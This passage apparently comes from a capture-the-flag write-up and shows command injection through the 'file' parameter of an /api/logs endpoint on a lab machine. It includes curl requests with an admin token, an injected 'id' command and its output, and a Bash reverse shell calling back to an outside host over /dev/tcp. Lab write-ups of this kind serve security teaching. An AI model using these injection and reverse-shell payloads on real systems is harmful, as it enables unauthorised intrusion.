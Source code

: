 ## exec is a dangerous command, as it will execute the given string. ${file} is passed in as a parameter to /api/logs. With control over ${file}, I can make getLogs into something like:

```bash
git log --oneline; [any command]
```

### POC - id

## Given that the output comes back (the command injection is not blind), I can test other commands as well, like id:
```bash
curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r . uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
```
### Shell

## I’ll continue to use curl, but rather than putting the GET parameters right into the url, I’ll use -G to force a GET request, and --data-urlencode to have curl encode the data for me. Now I don’t have to worry about special characters, etc. I’ll start with a command I know works to make sure my syntax is correct:

```code
curl -s -G 'http://10.10.11.120/api/logs' \
> --data-urlencode 'file=/dev/null;id' \
> -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" \
> | jq -r .
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
```
## Adding /dev/null before the ; is not necessary, but it makes the git log command return nothing, so the output is just from my injection.
## Now I can update that to a simple Bash reverse shell (and start nc listening in a new terminal):
```bash
curl -s -G 'http://10.10.11.120/api/logs' --data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.16.21/9001 0>&1'" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .
```
## t just hangs, but at a listening nc there’s a shell as dasith:
